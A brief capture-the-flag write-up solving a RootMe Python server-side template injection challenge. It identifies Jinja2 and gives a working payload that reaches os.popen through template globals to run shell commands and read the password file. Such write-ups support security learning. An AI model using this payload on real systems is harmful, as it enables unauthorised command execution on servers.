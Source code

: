 # Python: Server-side Template Injection Introduction

[RootMe challenge: Python - Server-side Template Injection Introduction](https://www.root-me.org/fr/Challenges/Web-Serveur/Python-Server-side-Template-Injection-Introduction): This service allows you to generate a web page. Use it to read the flag!

----

`${ ... }` didn't work, but `{{ ... }}` did. Further fiddling. Apparently Jinja2.

Use `{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}` to `cat .passwd`.

## Resources

* [SSTI techniques (these writeups)](../ssti/README.md)
* [PayloadAllTheThings: Exploit the SSTI by calling os.popen().read()](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-ospopenread)

